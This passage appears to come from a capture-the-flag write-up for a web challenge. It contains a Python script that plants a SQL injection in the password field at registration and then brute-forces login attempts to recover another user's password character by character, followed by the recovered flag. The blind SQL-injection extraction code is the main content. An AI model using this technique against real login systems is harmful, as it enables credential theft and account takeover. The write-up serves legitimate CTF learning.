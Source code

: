 	# You must initialize logging, otherwise you'll not see debug output.
	logging.basicConfig()
	logging.getLogger().setLevel(logging.DEBUG)
	requests_log = logging.getLogger("requests.packages.urllib3")
	requests_log.setLevel(logging.DEBUG)
	requests_log.propagate = True
	'''
	url = "https://cool.mc.ax/"

	#payload = "username=dasdfasdf&password="
	headers = {
	  'Host': 'cool.mc.ax',
	  'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
	  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
	  'Accept-Language': 'en-US,en;q=0.5',
	  'Accept-Encoding': 'gzip, deflate',
	  'Content-Type': 'application/x-www-form-urlencoded',
	  'Content-Length': '38',
	  'Origin': 'https://cool.mc.ax',
	  'Connection': 'close',
	  'Referer': 'https://cool.mc.ax/',
	  'Upgrade-Insecure-Requests': '1'
	}

	#response = requests.request("POST", url, headers=headers, data=payload)

	#print(response.text)
	listCh = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
	password = "GRsduxoDN79azQ7mea1C8j1EcQK"
	while True:
	    tempUse = ''.join(numpy.random.choice(list(listCh)) for _ in range(32))
	    print(tempUse)
	    payload2 = "username={}&password='||substr((SELECT+password+FROM+users),1,{}))--"
	    payload2 = payload2.format(tempUse,len(password)+1)
	    response2 = requests.request("POST", url2, headers=headers2, data=payload2,allow_redirects=False)
	    for nChar in listCh:
		payload = "username={}&password={}"
		payload = payload.format(tempUse,password+nChar)
		response = requests.request("POST", url, headers=headers, data=payload,allow_redirects=False)
		print(password+nChar,response.status_code)
		if(response.status_code == 302):
		    password+=nChar
		    print("adding: "+nChar)
		    break

What this script does is create a user with a random username and make it's password the password we have gotten so far, as well as the next letter of ginkoid's password. It then tries to login with all the letters+numbers, and adds the correct letter/number to the password. I ran this script, and found the password. I logged in to the 'ginkoid' acount, and was presented with an mp3 file named 'flag-at-end-of-file.mp3'. Based off the name, I assumed the flag was at the end of the file, ran strings ons it, and got the following flag:
## Flag:
`flag{44r0n_s4ys_s08r137y_1s_c00l}`
